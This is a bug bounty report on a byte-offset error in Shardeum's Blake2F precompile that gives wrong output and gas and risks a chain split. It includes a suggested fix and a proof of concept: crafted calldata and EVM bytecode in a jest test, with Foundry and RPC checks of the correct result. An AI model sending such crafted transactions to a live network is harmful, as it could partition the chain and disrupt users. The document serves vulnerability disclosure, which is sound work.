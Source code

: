
# Inconsistent consensus issue for Blake2F precompile execution in the execution layer

Submitted on Jul 22nd 2024 at 14:02:09 UTC by @ret2happy for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33520

Report type: Blockchain/DLT

Report severity: Insight

Target: https://github.com/shardeum/shardeum/tree/dev

Impacts:
- Unintended chain split (network partition)

## Description
## Brief/Intro

There exists a wrong implementation in the precompile `0x9`. When calculate the output  involved with non-zero aligned inputs, the output and the gas result is totally wrong. This would lead to the wrong gas usage and further wrong result with the correct EVM-consensus implemented validator, resulting the network partition.


## Vulnerability Details

In the precompile function of [1], it decodes the `rounds` and the following parameters `hRaw`,`mRaw`,`tRaw` using the beginning buffer of the `data`. However, the `data` buffer could have offset and when the offset is non-zero, the decoded parameter is wrong.  The official definition of the Blake precompile could be found in [2].

```

export function precompile09(opts: PrecompileInput): ExecResult {
  ...

  const rounds = new DataView(data.subarray(0, 4).buffer).getUint32(0) // [1] wrong align for the 
  const hRaw = new DataView(data.buffer, 4, 64)
  const mRaw = new DataView(data.buffer, 68, 128)
  const tRaw = new DataView(data.buffer, 196, 16)
```

Take [1] for example, it decode the first 4 bytes of the data array buffer. However, the byteOffset of the `data` could be non-zero. This result in the wrong memory access (we read the wrong & stale memory data) when calculate the parameter. This further leads to the wrong output result and the gas result.

Hence we need to take `byteOffset` into consideration. Following parameter calculation is an suggested fix:
```
  const rounds = new DataView(data.buffer, data.byteOffset).getUint32(0)
  const hRaw = new DataView(data.buffer, data.byteOffset + 4, 64)
  const mRaw = new DataView(data.buffer, data.byteOffset + 68, 128)
  const tRaw = new DataView(data.buffer, data.byteOffset + 196, 16)
```


## Impact Details

By loading the malicious PoC tx we provided, the contract call result is totally wrong. What's more, the gas calculation is wrong as well. This could lead to the consensus issue within the execution layer. Furthermore, if any dApp using this precompile under this wrong implementation, it could get the wrong & unexpected result, leading to the DoS or fund lock/stolen issue in that case. 

## References

[1] https://github.com/shardeum/shardeum/blob/c7b10c2370028f7c7cbd2a01839e50eb50faa904/src/evm_v2/precompiles/09-blake2f.ts#L184-L187

[2] https://eips.ethereum.org/EIPS/eip-152#12-rounds



## Proof of Concept

## PoC

I write a PoC which runs transaction on the shardeum network under the `test/testCases` directory:
```
// file: test/testCases/transactionsPoC.test.ts
import { Common, Hardfork} from '@ethereumjs/common'
import { EVM as EthereumVirtualMachine } from '../../src/evm_v2'
import {
  Address, bytesToHex, hexToBytes
} from '@ethereumjs/util'
import { DefaultStateManager } from '@ethereumjs/statemanager'

// eslint-disable-next-line no-undef
describe('Precompiles: BLAKE2F', () => {
  it('BLAKE2F PoC', async () => {
    let evmCommon = new Common({ chain: 'mainnet', hardfork: Hardfork.Istanbul, eips: [3855] })
    const calldata =
            '0x0000000c28c9bdf267e6096a3ba7ca8485ae67bb2bf894fe72f36e3cf1361d5f3af54fa5d182e6ad7f520e511f6c3e2b8c68059b3dd8338ed89de6791854126751ac933302810c04147014e9eb472e4dbc09d3c96abb531c9ae39c9e6c454cb83913d688795e237837d30258d11ea7c75201003000454cb83913d688795e237837d30258d11ea7c752011af5b8015c64d39ab44c60ead8317f9f5a9b6c4c01000000000100ca9a3b000000000000000000000000000000000000000000000000000000008000000000000000000000000000000000'
    const customEVM = new EthereumVirtualMachine({
      common: evmCommon,
      stateManager: new DefaultStateManager()
    })
    const code = `0x366000602037600080366020600060095AF1593D6000593E3D90F3`
    await customEVM.stateManager.putContractCode(Address.zero(), hexToBytes(code))
    try {
      let runTxResult = await customEVM.runCall(
        {
          data: hexToBytes(calldata),
          to: Address.zero()
        }
      )
      console.log('return value: ', bytesToHex(runTxResult.execResult.returnValue))
      // correct result:
      // 0x772acbd3f30b0c3f5f53e8b836ab406f7d8d46fd4b27e2ce2ecd67dbf18c958741e2c49d1f1b1a463907a484f970c057dab9684062b82fda69e8a0057e14766f
    } finally {
      customEVM.cleanUp()
    }

  })
})

```

Executing this unit test using `jest test/testCases/transactionsPoC.test.ts`, we would get:
```
  Precompiles: BLAKE2F
    ✓ BLAKE2F PoC (18 ms)

  console.log
    return value:  0x08c9bcf367e6096a3ba7ca8485ae67bb2bf894fe72f36e3cf1361d5f3af54fa5d1487c967f520e511f6c3e2b8c68059b6bbd41fbabd9831f79217e1319cde05b

      at Object.<anonymous> (test/testCases/transactionsPoC.test.ts:27:15)

```
We observe that the return value is `0x08c9bcf367e6096a3ba7ca8485ae67bb2bf894fe72f36e3cf1361d5f3af54fa5d1487c967f520e511f6c3e2b8c68059b6bbd41fbabd9831f79217e1319cde05b`. However, the correct return value should be `0x772acbd3f30b0c3f5f53e8b836ab406f7d8d46fd4b27e2ce2ecd67dbf18c958741e2c49d1f1b1a463907a484f970c057dab9684062b82fda69e8a0057e14766f`. (We will later explain how we get the correct value/ ground truth.)

By applying the suggested fix in the bug description, we get the correct execution result.

#### Ground truth
We use a foundry test to get the correct result since it uses ethereum mainnet as the execution backend. Following is the test file:
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";

contract BlakePoCTest is Test {
    function setUp() public {}
    function testBlakeResult() public {
        address target = address(0x0);
        bytes memory code = hex"366000602037600080366020600060095AF1593D6000593E3D90F3";
        vm.etch(
            target , code 
        );
        (bool success, bytes memory result) = target.call(hex"0000000c28c9bdf267e6096a3ba7ca8485ae67bb2bf894fe72f36e3cf1361d5f3af54fa5d182e6ad7f520e511f6c3e2b8c68059b3dd8338ed89de6791854126751ac933302810c04147014e9eb472e4dbc09d3c96abb531c9ae39c9e6c454cb83913d688795e237837d30258d11ea7c75201003000454cb83913d688795e237837d30258d11ea7c752011af5b8015c64d39ab44c60ead8317f9f5a9b6c4c01000000000100ca9a3b000000000000000000000000000000000000000000000000000000008000000000000000000000000000000000");
        console.log("success:", success);
        console.logBytes(result);
    }
}
```
Install foundry and run:
```
forge test -vvvv
```
You would get the return from running this code:
```
Logs:
  success: true
  0x772acbd3f30b0c3f5f53e8b836ab406f7d8d46fd4b27e2ce2ecd67dbf18c958741e2c49d1f1b1a463907a484f970c057dab9684062b82fda69e8a0057e14766f
```

Also note that the `0x0` address code (i.e., `0x366000602037600080366020600060095AF1593D6000593E3D90F3`) is doing the following things:
```
- copy calldata into memory, with offset 0x20
- call Blake2F precompile with the calldata
- return the data from precompile
```
The asm code of that bytecode is:
```
0x0: CALLDATASIZE
0x1: PUSH1     0x0
0x3: PUSH1     0x20
0x5: CALLDATACOPY
0x6: PUSH1     0x0
0x8: DUP1      
0x9: CALLDATASIZE
0xa: PUSH1     0x20
0xc: PUSH1     0x0
0xe: PUSH1     0x9
0x10: GAS       
0x11: CALL      
0x12: MSIZE     
0x13: RETURNDATASIZE
0x14: PUSH1     0x0
0x16: MSIZE     
0x17: RETURNDATACOPY
0x18: RETURNDATASIZE
0x19: SWAP1     
0x1a: RETURN    
```

You can also verify the result by the RPC call:
```
curl https://eth-mainnet.g.alchemy.com/v2/YOUR_RPC_KEY \
          -X POST \
          -H "Content-Type: application/json" \
          -d '{"jsonrpc":"2.0","method":"eth_call","params": [{"to": "0x0000000000000000000000000000000000000009","data": "0x0000000c28c9bdf267e6096a3ba7ca8485ae67bb2bf894fe72f36e3cf1361d5f3af54fa5d182e6ad7f520e511f6c3e2b8c68059b3dd8338ed89de6791854126751ac933302810c04147014e9eb472e4dbc09d3c96abb531c9ae39c9e6c454cb83913d688795e237837d30258d11ea7c75201003000454cb83913d688795e237837d30258d11ea7c752011af5b8015c64d39ab44c60ead8317f9f5a9b6c4c01000000000100ca9a3b000000000000000000000000000000000000000000000000000000008000000000000000000000000000000000"}, "latest"],"id":1}'
```
Running it you would get:
```
{"jsonrpc":"2.0","id":1,"result":"0x772acbd3f30b0c3f5f53e8b836ab406f7d8d46fd4b27e2ce2ecd67dbf18c958741e2c49d1f1b1a463907a484f970c057dab9684062b82fda69e8a0057e14766f"}%                                                                                                   
```